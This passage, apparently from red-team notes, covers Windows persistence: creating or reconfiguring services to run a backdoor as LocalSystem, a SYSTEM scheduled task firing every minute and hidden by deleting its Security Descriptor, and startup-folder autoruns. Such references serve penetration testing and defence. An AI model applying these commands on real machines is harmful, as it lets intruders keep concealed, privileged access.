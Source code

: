 After transfering the backdoor executable to the victim's machine, create a malicious service:

```powershell
sc.exe create <SERVICE_NAME> binPath= "<PATH_TO_EXE>" start= auto
sc.exe start <SERVICE_NAME>
```

### 4.2. Modifying existing service
Any disabled service is a good candidate to be modified without the user noticing it. The generation of a malicious executable is shown in the previous paragraph.

```powershell
# List of all services
sc.exe query state=all

# Reconfigure service to run a malicious binary
sc.exe config <SERVICE_NAME> binPath= "<PATH_TO_EXE>" start= auto obj= "LocalSystem"

# It might be necessary to start the service
sc.exe start <SERVICE_NAME>
```

## 5. Scheduled tasks
The task scheduler allows for control of when your task will start, allowing you to configure tasks that will activate at specific hours, repeat periodically or trigger when specific system events occur.

```powershell
# Run the command every single minute (with SYSTEM privileges)
schtasks /create /sc minute /mo 1 /tn <TASK_NAME> /tr "<COMMAND_PAYLOAD>" /ru SYSTEM

# Check if task created successfully
schtasks /query /tn <TASK_NAME>
```

An attacker can make a scheduled task invisible by deleting its _Security Descriptor_ (SD). If an user is not allowed to query a scheduled task, he won't be able to see it anymore. Deleting the SD disallows ALL users to access the scheduled task.

```powershell
# Run regedit as SYSTEM
PsExec64.exe -s -i regedit
```

Remove `SD` item from the `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\<TASK_NAME>` location.

## 6. Logon triggered

### 6.1. Startup folder
Each user has a special folder (`C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`) where an attacker can put a executable and it will be run whenever the user logs in. There is also a common folder for all users (`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`).
